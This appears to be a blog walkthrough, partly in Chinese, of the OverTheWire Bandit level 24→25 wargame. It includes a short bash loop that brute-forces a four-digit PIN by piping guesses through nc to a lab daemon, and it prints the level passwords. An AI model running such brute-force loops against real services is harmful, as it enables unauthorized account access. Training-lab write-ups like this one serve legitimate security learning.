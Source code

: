 ```yaml
---
title: "[OverTheWire] Bandit Level 24 → Level 25"
date: 2025-01-24T14:18:01+08:00
categories:
- OTW
- Bandit
thumbnailImagePosition: left
thumbnailImage: //cdn-1.webcatalog.io/catalog/overthewire/overthewire-icon-filled-256.png?v=1714775373043
---
```


<!--more-->

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

## My Answer (Step by step)

1. 連線到伺服器並登入

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

2. 透過 mktemp 指令產生暫存資料夾，並透過 cd 指令進入它

```bash
mktemp -d
cd /tmp/tmp.xs599rbycC
```

3. 透過 vim, vi, nano 等指令產生稍後要執行的腳本檔，並透過 chmod 指令修改權限以便執行

```bash
nano a.sh
```

a.sh

```bash
#!/bin/bash
PWD='gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8'
for n in `seq 1 9999`;
do
    echo "$PWD $n"
done | nc localhost 30002
```

```bash
chmod 777 -R /tmp/tmp.xs599rbycC
```

4. 執行它，即可獲得 Level 25 密碼!

```bash
./a.sh
# Wrong! Please enter the correct current password and pincode. Try again.
# Wrong! Please enter the correct current password and pincode. Try again.
# Wrong! Please enter the correct current password and pincode. Try again.
# Wrong! Please enter the correct current password and pincode. Try again.
# Wrong! Please enter the correct current password and pincode. Try again.
# Correct!
# The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```